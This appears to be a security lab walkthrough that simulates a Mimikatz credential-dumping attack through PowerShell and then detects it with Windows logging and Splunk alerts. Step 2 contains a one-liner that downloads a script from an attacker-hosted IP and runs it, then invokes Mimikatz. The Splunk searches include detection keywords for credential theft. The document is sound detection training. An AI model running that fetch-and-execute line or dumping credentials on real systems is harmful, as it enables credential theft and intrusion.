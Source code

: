 # Scenario 5: Credential Dumping and Exfiltration (Mimikatz via PowerShell)

## 🎯 Objective

Simulate an advanced credential dumping attack using Mimikatz through obfuscated PowerShell commands, and detect it using Windows logging mechanisms and Splunk.

---

## 🧠 Threat Simulation: Why This Matters?

Credential dumping is a technique used by adversaries (like APTs) to extract password hashes or plaintext credentials from memory. Mimikatz is one of the most well-known tools for this.

In this scenario, we simulate an attacker executing Mimikatz via PowerShell and attempt to detect this behavior using advanced logging and SIEM.

---

## 🧪 Lab Environment

| Component     | Role             | IP Address        |
|---------------|------------------|-------------------|
| Kali Linux    | Attacker         | 192.168.1.14      |
| Windows 10    | Victim           | 192.168.1.15      |
| Ubuntu (ELK)  | SIEM (Splunk)    | 192.168.1.16      |

---

## 🛠️ Step-by-Step Execution

### ✅ Step 1: Enable PowerShell Logging on Windows

1. Open **PowerShell as Administrator** on the Windows 10 victim machine.
2. Enable PowerShell Script Block Logging and Module Logging:

```powershell
# Enable Script Block Logging
Set-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1 -Force

# Enable Module Logging
Set-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging -Name EnableModuleLogging -Value 1 -Force
Reboot the system or restart PowerShell.
```
✅ Step 2: Simulate Mimikatz Attack via PowerShell
On the Windows machine, run:

powershell
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.14/mimi.ps1')
Invoke-Mimikatz
```
Replace 192.168.1.14 with Kali IP where mimi.ps1 is hosted using python3 -m http.server 80.

✅ Step 3: Analyze Logs in Splunk
Search in Splunk for PowerShell logs:

splunk
```
index=winlogs EventCode=4104 OR EventCode=4103
Or specifically:
```
splunk
```
index=winlogs EventCode=4104 
| eval command=lower(Message)
| search command="mimikatz" OR command="sekurlsa::logonpasswords" OR command="frombase64string"
```

✅ Step 4: Create a Detection Alert
Save the above Splunk search as an Alert.

Name it: Credential Dumping via PowerShell

Trigger Condition: If results > 0

Notify via email or log to index.

🔍 Key Detection Points
Log Source	Event ID	Description
Sysmon	1, 10	Process creation, PowerShell
PowerShell Logs	4103, 4104	Module/script block logging
Security Event Logs	4688	New process creation
